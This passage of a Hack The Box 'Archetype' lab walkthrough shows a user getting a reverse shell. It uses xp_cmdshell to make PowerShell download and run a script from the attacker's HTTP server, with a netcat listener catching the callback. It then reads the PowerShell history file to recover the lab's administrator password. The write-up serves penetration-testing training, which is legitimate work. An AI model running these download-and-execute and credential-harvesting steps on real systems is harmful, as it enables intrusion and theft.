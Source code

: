 ~~~Powershell
$stream.Flush()};$client.Close()
~~~
I used **Python's** http.server module to accomplish this.
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Archetype]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


~~~
Afterwards, I setup a **netcat** listener on port 443 and used UFW to allow the call backs on port 80 and 443 to our machine.
~~~Bash
┌──(jessi㉿teatimesec)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...


~~~
Finally, all I had to do was initiate the download from the target and execute it with **PowerShell**.
~~~Bash
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.30/shell.ps1\");"

~~~

We immediately get a shell as the sql_svc user.
~~~Bash
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.27] 49711

# whoami
archetype\sql_svc
# 
~~~
## PrivEsc
### Checking Console History
Since the sql_svc account is both a service account and a normal user account, it's likely an administrator has logged in to the server with the account before and possibly ran commands as the user. I can access the console history for the user and inspect for anything useful.
~~~Bash
# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
# 
~~~
The latest command in the history reveals credentials for the **administrator** account.
#### Found Credentials
Username: administrator  
Password: MEGACORP_4dm1n!!
